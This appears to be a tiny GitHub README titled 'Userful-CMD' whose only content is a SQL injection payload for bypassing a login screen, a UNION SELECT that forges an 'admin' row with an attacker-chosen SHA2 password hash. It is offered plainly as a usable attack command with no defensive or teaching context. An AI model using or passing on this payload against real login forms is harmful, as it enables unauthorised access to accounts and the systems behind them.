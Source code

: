 # Userful-CMD

Bypass a login screen were username field has potential SQL injection:
`' UNION SELECT 1, 'admin', SHA2('bypass', 256)-- -`
